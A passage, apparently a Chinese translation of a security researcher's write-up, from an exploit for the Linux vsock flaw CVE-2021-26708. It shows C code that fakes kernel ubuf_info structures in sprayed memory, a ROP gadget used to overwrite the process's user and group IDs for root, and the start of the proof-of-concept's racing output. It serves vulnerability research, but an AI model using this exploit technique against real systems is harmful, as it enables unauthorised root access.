         xattr_addr = spray_data + PAGE_SIZE * 4 - SKB_SIZE + 4;

        /* Don't touch the second part to avoid breaking page fault delivery */
        memset(spray_data, 0x0, PAGE_SIZE * 4);

        info = (struct skb_shared_info *)(xattr_addr + SKB_SHINFO_OFFSET);
        info->tx_flags = SKBTX_DEV_ZEROCOPY;
        info->destructor_arg = uaf_write_value + MY_UINFO_OFFSET;

        uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET);

<div lang="chinese" dir="ltr" class="mw-content-ltr">
skb_shared_info駐留在噴射數據中，正好在偏移量SKB_SHINFO_OFFSET處，即3776字節。 skb_shared_info.destructor_arg指針存儲了struct ubuf_info的地址。因為被攻擊的sk_buff的內核地址是已知的，所以能在網絡緩衝區的MY_UINFO_OFFSET處創建了一個假的ubuf_info。下面是有效payload的佈局：

</div>
![](T0185ccbf9f025c74da.png "T0185ccbf9f025c74da.png")

<div lang="chinese" dir="ltr" class="mw-content-ltr">
下面講講destructor_arg 回調:

</div>
     /*
         * A single ROP gadget for arbitrary write:
         *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
         * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
         */
        uinfo_p->callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
        uinfo_p->desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
        uinfo_p->desc = uinfo_p->desc - 1; /* rsi value 1 should not get into euid */

<div lang="chinese" dir="ltr" class="mw-content-ltr">
由於在vmlinuz-5.10.11-200.fc33.x86_64中找不到一個能滿足我需求的gadget，所以我自己進行了研究構造。

</div>
<div lang="chinese" dir="ltr" class="mw-content-ltr">
callback函數指針存儲一個ROP gadget 地址，RDI存儲callback函數的第一個參數，也就是ubuf_info本身的地址，RDI + 8指向ubuf_info.desc。 gadget 將ubuf_info.desc移動到RDX。現在RDX包含有效用戶ID和組ID的地址減一個字節。這個字節很重要：當gadget從 RSI向 RDX指向的內存中寫入消息1時，有效的 uid和 gid將被零覆蓋。重複同樣的過程，直到權限升級到root。整個過程輸出流如下：

</div>
    [a13x@localhost ~]$ ./vsock_pwn

    =================================================
    ==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
    =================================================

    [+] begin as: uid=1000, euid=1000
    [+] we have 2 CPUs for racing
    [+] getting ready...
    [+] remove old files for ftok()
    [+] spray_data at 0x7f0d9111d000
    [+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
    [+] fault_handler for uffd 38 is ready

    [+] stage I: collect good msg_msg locations
    [+] go racing, show wins:
        save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
        save msg_msg ffff9125c25a4640 in msq 12 in slot 1
        save msg_msg ffff9125c25a4780 in msq 22 in slot 2
        save msg_msg ffff9125c3668a40 in msq 78 in slot 3
